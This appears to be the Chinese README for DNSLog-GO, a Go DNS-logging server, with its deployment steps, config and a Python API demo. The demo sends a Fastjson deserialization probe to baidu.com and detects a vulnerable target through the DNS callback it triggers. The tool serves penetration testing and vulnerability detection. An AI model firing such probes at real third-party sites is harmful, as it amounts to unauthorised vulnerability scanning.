

简介
---

DNSLog-GO 是一款golang编写的监控 DNS 解析记录的工具。

支持:

- docker一行命令部署
- WEB界面 或者 API 模式
- 多账号，可供多人使用。或者工具扫描和人工测试，数据互不干扰
- 支持通过置DNA A记录，用于临时测试或者ns服务自解析

演示截图:



安装
---

详细图文教程:https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg

# 1.获取发行版

这里 https://github.com/lanyi1998/DNSlog-GO/releases 下载最新发行版,并解压

或者docker启动
```shell
wget https://raw.githubusercontent.com/lanyi1998/DNSlog-GO/master/config.yaml
#修改你的config.yaml文件
docker run -d -p 53:53 -p 53:53/udp -p 8000:8000 -v `pwd`/config.yaml:/DNSlog-GO/config.yaml --name dnslog --privileged --restart=always lanyi1998/dnslog-go:latest
```

# 2.域名与公网 IP 准备

```
搭建并使用 DNSLog，你需要拥有一个域名如(a.com),还需要有一个公网 IP 地址(如：1.1.1.1)
    
修改 a.com 的 NS 记录为 

NS1.vpsip.NIP.IO
NS2.vpsip.NIP.IO

如 
ns1.1.1.1.1.nip.io
ns1.1.1.1.1.nip.io

本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
注意: NS 记录修改之后部分地区需要 24-48 小时会生效
```

# 3.修改配置文件 config.ini

```
Http:
  host: 0.0.0.0
  port: 8000
  consoleDisable: false

User:
  #"token":"用户对应子域名"
  'admin': 'dnslog'

Dns:
  domain: demo.com
  ARecord:
    'www': '1.1.1.1'
```

# 4.启动对应系统的客户端

**注意服务端重启以后，如果修改了用户对应子域名，必须清空一下浏览器中的localStorage,否则会获取不到数据**

---

API Python Demo

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
        if res['code'] == 401:
            exit(res['msg'])
        self.domain = res['data']['subdomain']


    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["msg"] == 'success':
            return True
        else:
            return False


url = "https://www.baidu.com/"

dns = DnsLog("1.1.1.1:8000", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

## Stargazers over time

[](https://starchart.cc/lanyi1998/DNSlog-GO)

## 404星链计划

[](https://starchart.cc/lanyi1998/DNSlog-GO)

DNSlog-Go 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)